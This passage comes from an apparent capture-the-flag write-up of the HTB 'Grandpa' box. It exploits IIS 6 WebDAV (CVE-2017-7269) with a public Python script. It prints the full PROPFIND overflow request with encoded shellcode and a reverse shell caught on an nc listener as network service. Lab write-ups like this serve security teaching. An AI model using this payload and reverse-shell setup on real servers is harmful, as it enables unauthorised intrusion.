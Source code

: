    
    [*] 10.10.10.14 - Command shell session 3 closed.  Reason: User exit
    

Eventually I did some Googling and stumbled across [this
post](https://forum.hackthebox.eu/discussion/1990/grandpa-reverse-tcp-
immediately-closes-after-sending-exploit/p1) in the HTB forums, which is
others having the same issue. I have no idea why.

### Success

I eventually found [this
script](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). I didn’t
have to update it at all, and running it gave a shell:

    
    
    root@kali# python iis_rev_shell.py 10.10.10.14 80 10.10.14.47 443
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 1744
    If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ
    ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ
    ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ
    ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
    
    
    

At my listener:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.14.
    Ncat: Connection from 10.10.10.14:1030.
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.
    
    c:\windows\system32\inetsrv>whoami
    nt authority\network service
    

Sometimes this script too would fail, if the box wasn’t in a clean start. When
doing buffer overflow exploits, it’s a good idea to start from a clean state
if possible (ie reset the box).
